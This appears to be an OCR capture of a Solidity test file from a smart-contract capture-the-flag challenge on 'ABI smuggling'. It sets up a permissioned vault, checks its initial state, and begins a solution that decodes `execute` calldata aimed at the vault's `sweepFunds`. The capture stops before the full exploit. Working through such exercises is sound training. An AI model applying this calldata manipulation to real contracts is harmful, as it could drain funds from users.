 ```solidity

        // Deploy vault
        vault = new SelfAuthorizedVault();

        // Set permissions in the vault
        bytes32 deployerPermission = vault.getActionId(hex"85fb709d", deployer, address(vault));
        bytes32 playerPermission = vault.getActionId(hex"d9caed12", player, address(vault));
        bytes32[] memory permissions = new bytes32[](2);
        permissions[0] = deployerPermission;
        permissions[1] = playerPermission;
        vault.setPermissions(permissions);

        // Fund the vault with tokens
        token.transfer(address(vault), VAULT_TOKEN_BALANCE);

        vm.stopPrank();
    }

    /**
     * VALIDATES INITIAL CONDITIONS - DO NOT TOUCH
     */
    function test_assertInitialState() public {
        // Vault is initialized
        assertGt(vault.getLastWithdrawalTimestamp(), 0);
        assertTrue(vault.initialized());

        // Token balances are correct
        assertEq(token.balanceOf(address(vault)), VAULT_TOKEN_BALANCE);
        assertEq(token.balanceOf(player), 0);

        // Cannot call Vault directly
        vm.expectRevert(SelfAuthorizedVault.CallerNotAllowed.selector);
        vault.sweepFunds(deployer, IERC20(address(token)));
        vm.prank(player);
        vm.expectRevert(SelfAuthorizedVault.CallerNotAllowed.selector);
        vault.withdraw(address(token), player, 1e18);
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_abiSmuggling() public checkSolvedByPlayer {
        emit log("-------------------------- Before exploit --------------------------");
        emit log_named_decimal_uint("token balance in the vault", token.balanceOf(address(vault)), token.decimals());
        emit log_named_decimal_uint(
            "token balance in the recovery address", token.balanceOf(recovery), token.decimals()
        );

        // calldata to call the `execute` function with the `target` as the vault and the `actionData` to call sweepFunds.
        // This will revert with a `NotAllowed` error

        // 1cff79cd                                                         -> `execute` function signature
        // 0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264 -> vault address
        // 0000000000000000000000000000000000000000000000000000000000000040 -> offset
        // 0000000000000000000000000000000000000000000000000000000000000044 -> length
        // 85fb709d                                                         -> `sweepFunds` function signature
        // 00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea -> recovery address
        // 0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b -> token address

```